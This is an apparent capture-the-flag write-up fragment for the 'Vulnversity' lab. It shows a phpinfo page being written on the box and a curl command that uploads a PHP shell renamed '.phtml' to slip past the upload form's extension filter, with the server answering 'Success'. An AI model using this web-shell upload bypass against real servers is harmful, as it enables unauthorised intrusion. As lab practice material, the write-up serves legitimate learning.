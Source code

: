 phpinfo

```bash
www-data@vulnuniversity:/var/www/html$ cat > sugo.php
<?php phpinfo(); ?>
```

```html
<h1 class="p">PHP Version 7.0.33-0ubuntu0.16.04.5</h1>
```

## upload with curl

how to upload file with `cURL`?

let's inspect first the upload form:

```html
<form action="[index.php](view-source:http://192.168.106.253/internal/index.php)" method="post" enctype="multipart/form-data">
    <h3>Upload</h3><br />
    <input type="file" name="file" id="file">
```

cURL command:

```bash
$ curl -F 'file=@/home/joshua/Documents/thm/vulnversity/shell.php;filename=rofl.phtml' http://10.10.206.250:3333/internal/index.php
<html>
<head>
<link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
<style>
html, body {
    height: 30%;
}
html {
    display: table;
    margin: auto;
}
body {
    display: table-cell;
    vertical-align: middle;
    text-align: center;
}
</style>
</head>
<body>
<form action="index.php" method="post" enctype="multipart/form-data">
    <h3>Upload</h3><br />
    <input type="file" name="file" id="file">
    <input class="btn btn-primary" type="submit" value="Submit" name="submit">
</form>
Success</body>
</html>

```
